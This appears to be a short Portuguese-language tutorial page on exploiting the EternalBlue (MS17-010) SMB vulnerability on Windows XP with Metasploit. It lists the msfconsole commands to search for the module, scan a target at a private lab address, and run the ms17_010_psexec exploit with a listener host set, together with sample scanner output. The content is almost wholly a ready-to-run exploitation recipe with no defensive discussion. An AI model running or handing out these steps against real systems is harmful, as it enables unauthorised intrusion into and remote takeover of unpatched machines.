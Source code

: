 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


**Explorando o EternalBlue WindowsXP**


#### Enter msfconsole and search vuln

```ruby
msfconsole
search eternalblue
```

OR

```ruby
search ms17-010
```

---

#### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.10.1.4
exploit
```

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


#### Agora Vamos Explorar a maquina que identificamos que esta vulneravel

```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.10.1.4

set LHOST 10.10.1.2

run
```